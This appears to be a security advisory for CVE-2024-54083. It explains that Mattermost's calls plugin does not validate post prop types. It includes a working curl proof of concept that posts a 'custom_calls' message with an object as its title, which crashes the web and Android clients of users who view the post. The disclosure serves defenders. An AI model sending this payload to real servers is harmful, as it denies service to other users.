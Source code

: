 # CVE-2024-54083

| Weakness Enumeration |
| -------------------- |
| CWE-1287             |

## Impact

The calls plugin does not validate the type of `callProps`, this can be used to create posts that cause client-side DoS of users attempting to render that post.

## Exploitation

The web/mobile app expect the following types for certain keys in a posts `props`:

```ts
// https://github.com/mattermost/calls-common/blob/8d2b13bd2f10847a4be461dd4225fef2ade06ab9/src/types/types.ts#L281-L291
export type CallPostProps = {
  title: string;
  start_at: number;
  end_at: number;
  participants: string[];
  recordings: CallRecordingPropsMap;
  transcriptions: CallTranscriptionPropsMap;

  // DEPRECATED
  recording_files: string[];
};
```

These aren't validated anywhere.

Therefore an attacker can create a post with `"type": "custom_calls"` and some value for one of these props that will throw an exception/crash the web/android app when used with a different type, e.g. setting the title to `{}` which will then cause react to crash with the following [error](https://react.dev/errors/31?invariant=31&args%5B%5D=object%20with%20keys%20%7B%7D):

> Objects are not valid as a React child (found: object with keys {}). If you meant to render a collection of children, use an array instead.

Create a post with type `custom_calls` and set a prop to a value that will cause an error e.g. `title` to `{}`:

### PoC

```bash
curl -X POST http://localhost:8065/api/v4/posts --data "{\"props\":{\"title\":{}},\"channel_id\":\"$CHANNEL_ID\",\"message\":\"example\",\"type\":\"custom_calls\"}" -H "Authorization: Bearer $AUTH_TOKEN"
```

Now the web/android app of all users trying to render that post will crash:

![webapp crash](assets/web.png)

![android app crash](assets/android.png)
